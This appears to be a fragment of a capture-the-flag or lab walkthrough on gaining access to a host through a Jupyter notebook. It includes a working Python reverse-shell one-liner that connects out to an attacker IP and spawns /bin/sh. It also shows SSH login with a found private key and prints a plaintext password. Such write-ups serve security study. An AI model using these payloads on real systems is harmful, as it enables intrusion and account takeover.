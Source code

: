 Using an existing .ipynb file, got a reverse shell via Python by executing a piece of python code present in .ipynb file
```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.103.8",4109));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Got a reverse shell as `dev-datasci`

Found an SSH private key for user `dev-datasci-priv`. Using the private SSH key,
- Set chmod 600
```bash
chmod 600 devdatasci.key
```
- SSH
```bash
ssh -i devdatasci.key dev-datasci-lowpriv@10.10.83.120
```

Found password for user `dev-datasci-lowpriv:wUqnKWqzha*W!PWrPRWi!M8faUn`
